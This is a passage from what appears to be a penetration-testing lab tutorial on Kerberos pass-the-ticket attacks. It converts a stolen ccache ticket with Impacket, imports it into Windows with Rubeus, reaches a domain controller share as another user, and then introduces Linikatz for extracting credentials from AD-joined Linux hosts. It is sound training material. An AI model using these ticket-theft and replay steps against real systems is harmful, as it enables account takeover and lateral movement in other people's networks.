 #### Impacket Ticket converter
```shell
> impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```
We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.

#### Importing converted ticket into Windows session with Rubeus
```cmd
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```
```cmd
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
```


## Linikatz
[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.
Just like `Mimikatz`, to take advantage of Linikatz, we need to be root on the machine. This tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc.
